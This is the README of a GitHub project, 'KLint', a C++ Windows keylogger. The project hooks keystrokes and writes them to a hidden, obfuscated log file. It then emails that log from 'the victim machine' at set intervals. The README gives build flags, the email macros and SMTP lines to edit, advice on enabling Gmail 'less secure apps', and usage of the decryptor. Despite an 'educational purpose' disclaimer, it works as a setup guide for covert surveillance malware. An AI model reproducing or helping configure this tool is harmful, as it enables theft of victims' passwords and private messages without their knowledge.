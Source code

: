 # KLint 
**CPP KeyLogger**<br /><br />
**KLint** captures keyboard key strokes using system hooks [**Based on Windows API**]. The keystrokes are written to a encrypted log file <br />
hidden under the windows filesystem tree and the log file is sent to the target via email after paticular time intervals as defined in **KeyHooks.h**<br />
In current version **v0.01** only keystroke recording is supported but soon screenshots, audio recording and much more will be added. <br /><br />

## Disclaimer
ANY MALICIOUS USE OF THE CONTENTS FROM THIS PROJECT WILL NOT HOLD THE AUTHOR RESPONSIBLE, THE CONTENTS ARE SOLELY FOR EDUCATIONAL PURPOSE

<br >
Table of Contents
=================

   * [Setup](#setup)
   * [Configuring The Keylogger](#configuration)
        * [Email Setup](#email-setup)
        * [Additional Params](#additional-parameters)
   * [Encryption](#encryption)
   * [Decryption](#decryption)
        * [Klint Decryptor](#Klint-Decryptor)


## Setup
Download the repository using either bash or the browser

```
git clone https://github.com/shaiq-dev/Klint.git
```

The keylogger is created in **CodeBlocks**, however any IDE supporting C++ can be used to build or modify the project. The CodeBlocks project files are included with this repo. <br />
For any other IDE directly add all the files to a new project. <br /><br />
**Prerequisites**

```

* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked
* Addtionally -static flag maybe need to bundle all the dependencies with the exe that are required during runtime

```
    
## Configuration
For current version all the configurations are directly done to the source code. This will be changed in upcoming versions

### Email Setup
Default email configuration is set for **Gmail**. For email setup you need to configure 3 Macros in ***Sender.h*** in ..\KLint\Klint\Sender.h on ***Line 40*** <br />
```
    #define X_EM_TO "receiver@mail.com"
    #define X_EM_FROM "sender@mail.com"
    #define X_EM_PASS "sender password"
```
**X_EM_TO**       &#9;:&#9;Your destination email <br />
**X_EM_FROM**     &#9;:&#9;Your Source email   <br />
**X_EM_PASS**     &#9;:&#9;Source email password   <br />

* **For Gmail Users**

    * To send the emails successfully from the victim machine turn on "Allow  LESS SECURE APPS" from [here]("https://myaccount.google.com/lesssecureapps")<br />
    * Alternatively to be on the safer side you can use "APP PASSWORDS"
    from [here]("https://myaccount.google.com/apppasswords"), but to use this you need to enable 2 factor authentication
    *   Learn more about app passwords on Google [support]("https://support.google.com/accounts/answer/185833?hl=en")<br />

*   **Other Mail Providers**

    Open ***Sender.h*** and goto **Line 69**
    ```
    $Srv = \"smtp.gmail.com\" "
    ```
    Change **smtp.gmail.com** with the mail server of your email provider and edith **Line 78**
    ```
    "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
    ```
    Change **587** with your mail server port number


### Additional Parameters

To change the *time interval* for sending emails, there is a macro in ***KeyHooks.h*** in ..\KLint\Klint\KeyHooks.h on ***Line 17*** <br />
```
#define X_EM_SEMA 30000
```
That default value is *30000* which represents _30_ seconds or _30000 milliseconds_. Any value here should be given in milliseconds<br /><br />

## Encryption

The keylogger uses [BASE64]("https://en.wikipedia.org/wiki/Base64") encryption, as it is easy to decrypt so i have added some modification to the original algorithim. <br />
If you want to change the algorithim to fit your needs goto ___Base64.h___ located at _.\KLint\Klint\Base64.h_ and change the __SALTS__ and do the custom modifications to the following function on __Line 29__
```
 std::string encryptB64(std::string s) 
```
Any modifications made here shall also be made with the [decryptor](#decryption) in the reverse fashion. <br />
You can also change the whole algorithim to fit your needs
<br /><br />

## Decryption

The logs are decrypted using the same BASE64 algorithim and all the modifications made in the __BASE64.h__ are reversed here. The decryptor is located at 
```
..\KLint\Klint Decryptor\Klint-dcrypt\main.cpp
```
Any modifications made with the encryptor shall be reverted here but in reverse fashion. All the modifications shall be done with the below function located at __Line 69__
```
std::string DecryptB64(std::string s)
```

### KLint Decryptor

The ___exe___ version of the klint decryptor is already bundled with this project and can be used to decrypt the log files. It is located at
```
...\KLint\Klint Decryptor\Klint-dcrypt\bin\Debug\Klint-dcrypt.exe
```
**Usage** <br />

The __klint-dcrypt.exe__ can be run from the Windows command Line, it requires two parameters, input and the output file.
```
CMD > .\klint-dcrypt.exe "InputFile.log" "OutputFile.log"
```  

## License
This project is licensed under the MIT License, see the [LICENSE](License.md) file for more details
